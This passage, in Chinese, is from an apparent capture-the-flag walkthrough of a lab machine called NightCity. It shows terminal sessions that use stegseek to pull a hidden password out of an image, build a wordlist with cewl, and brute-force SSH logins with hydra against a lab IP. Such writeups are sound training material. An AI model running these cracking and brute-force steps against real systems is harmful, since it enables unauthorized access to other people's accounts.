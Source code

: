 ### 文件隐藏信息

之前三个图片啥东西都没有，看一下是否是一个`misc`，进行提取：

```bash
┌──(kali㉿kali)-[~/temp/NightCity]
└─$ stegseek most-wanted.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "japon"          
[i] Original filename: "pass.txt".
[i] Extracting to "most-wanted.jpg.out".

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ stegseek some-light.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.48% (132.7 MB)           
[!] error: Could not find a valid passphrase.

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ stegseek veryImportant.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.99% (133.4 MB)           
[!] error: Could not find a valid passphrase.

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ cat most-wanted.jpg.out    
VGhpc0lzVGhlUmVhbFBhc3N3MHJkIQ==

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ cat most-wanted.jpg.out | base64 -d
ThisIsTheRealPassw0rd!
```

拿到了密码？？？？尝试搜寻一下用户名，可能藏在刚刚那一堆关于蝙蝠侠的段落里，尝试一下：

```bash
┌──(kali㉿kali)-[~/temp/NightCity]
└─$ cewl http://$IP/robin --lowercase > dict

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ cat dict | grep robin                   
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
robin

┌──(kali㉿kali)-[~/temp/NightCity]
└─$ hydra -L dict -p ThisIsTheRealPassw0rd! -f ssh://192.168.10.105:22 2>/dev/null
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-10 12:35:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 176 login tries (l:176/p:1), ~11 tries per task
[DATA] attacking ssh://192.168.10.105:22/
[22][ssh] host: 192.168.10.105   login: batman   password: ThisIsTheRealPassw0rd!
[STATUS] attack finished for 192.168.10.105 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-10 12:35:09
```
